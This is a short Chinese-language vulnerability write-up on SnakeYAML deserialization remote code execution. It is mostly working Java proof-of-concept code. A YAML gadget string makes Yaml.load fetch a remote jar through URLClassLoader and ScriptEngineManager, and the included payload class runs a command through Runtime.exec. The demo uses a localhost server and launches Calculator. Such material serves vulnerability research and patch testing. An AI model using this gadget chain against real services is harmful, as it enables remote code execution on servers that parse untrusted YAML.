 SnakelYaml全版本

## 漏洞类型

Yaml.load方法参数外部可控时，可以构造一个含有恶意垒的Yaml格式内容，服务端进行反序列化可以引起远程命令执行等风险

## 漏洞复现

```java
package blbana.YamlTest;

import org.yaml.snakeyaml.Yaml;

public class Payload {
    public static void main(String[] args) {
        String PoC = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:8000\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(PoC);
    }
}
```

![https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Java-SnakeYaml-Vuls/17.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Java-SnakeYaml-Vuls/17.png)

- RCE版本

```java
// PoC

package YamlTest;

import org.yaml.snakeyaml.Yaml;

public class Payload {
    public static void main(String[] args) {
        String PoC = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:8000/yaml-payload.jar\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(PoC);
    }
}
```

```java
// yaml-payload.jar
// github URL: https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java

package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {  			 		Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```